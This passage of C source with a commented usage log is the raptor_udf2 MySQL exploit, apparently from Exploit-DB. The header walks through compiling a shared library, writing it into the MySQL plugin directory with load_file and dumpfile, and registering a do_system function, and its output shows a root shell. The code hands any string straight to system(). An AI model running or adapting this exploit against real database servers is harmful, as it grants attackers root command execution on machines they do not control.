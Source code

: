 ```c
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
        unsigned int            arg_count;      // number of arguments
        enum Item_result        *arg_type;      // pointer to item_result
        char                    **args;         // pointer to arguments
        unsigned long           *lengths;       // length of string args
        char                    *maybe_null;    // 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
        char                    maybe_null;     // 1 if func can return NULL
        unsigned int            decimals;       // for real functions
        unsigned long           max_length;     // for string functions
        char                    *ptr;           // free ptr for func data
        char                    const_item;     // 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
        if (args->arg_count != 1)
                return(0);

        system(args->args[0]);

        return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
        return(0);
}

```